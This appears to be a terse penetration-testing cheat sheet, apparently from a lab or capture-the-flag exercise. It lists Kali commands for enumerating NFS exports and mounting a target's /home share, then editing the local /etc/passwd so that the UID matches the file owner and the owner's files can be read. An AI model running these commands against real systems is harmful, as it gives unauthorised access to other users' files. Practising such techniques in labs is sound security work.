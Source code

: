 kali@kali:~$ mkdir home  
kali@kali:~$ sudo mount -o nolock TARGET:/home ~/home/  
make user with this group  
kali@kali:~$ sudo sed -i -e 's/1001/1014/g' /etc/passwd  
^login like user whith this group to read files  
  
  
showmount -e 10.10.10.34  
mount -t nfs -o vers=3 10.10.10.34:/var/nfsshare /mnt/jail/nfsshare  
  
nmap -sV -p 111 --script=rpcinfo TARGET
